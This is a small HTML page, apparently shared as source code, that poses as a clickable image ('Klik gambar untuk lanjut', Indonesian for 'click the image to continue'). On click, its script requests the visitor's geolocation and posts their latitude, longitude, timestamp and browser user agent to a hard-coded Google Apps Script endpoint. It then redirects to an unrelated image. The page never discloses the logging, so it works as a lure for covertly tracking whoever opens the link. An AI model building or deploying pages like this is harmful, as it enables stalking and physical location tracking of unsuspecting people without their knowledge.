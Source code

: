 
<!DOCTYPE html>
<html>
<head>
  <title>Link Tracker</title>
</head>
<body>
  <h2>Klik gambar untuk lanjut</h2>
  <img src="https://via.placeholder.com/400x200.png?text=Klik+Saya" 
       alt="Klik gambar" 
       style="cursor:pointer; width:400px;" 
       onclick="trackAndRedirect()">

  <script>
    const redirectURL = "https://i1.sndcdn.com/avatars-000375885701-q5yomr-t240x240.jpg"; // Ganti ke tujuan akhir
    const logEndpoint = "https://script.google.com/macros/s/AKfycbzxPHMWgQFYoko4icW2FT1jfHPlL4XdPbkp6s_HWYryP_g9ENda_67GCDefKmOW3RFanQ/exec";

    function trackAndRedirect() {
      if (navigator.geolocation) {
        navigator.geolocation.getCurrentPosition(function(position) {
          fetch(logEndpoint, {
            method: "POST",
            headers: { "Content-Type": "application/json" },
            body: JSON.stringify({
              latitude: position.coords.latitude,
              longitude: position.coords.longitude,
              timestamp: new Date().toISOString(),
              userAgent: navigator.userAgent
            })
          }).finally(() => {
            window.location.href = redirectURL;
          });
        }, () => {
          window.location.href = redirectURL;
        });
      } else {
        window.location.href = redirectURL;
      }
    }
  </script>
</body>
</html>
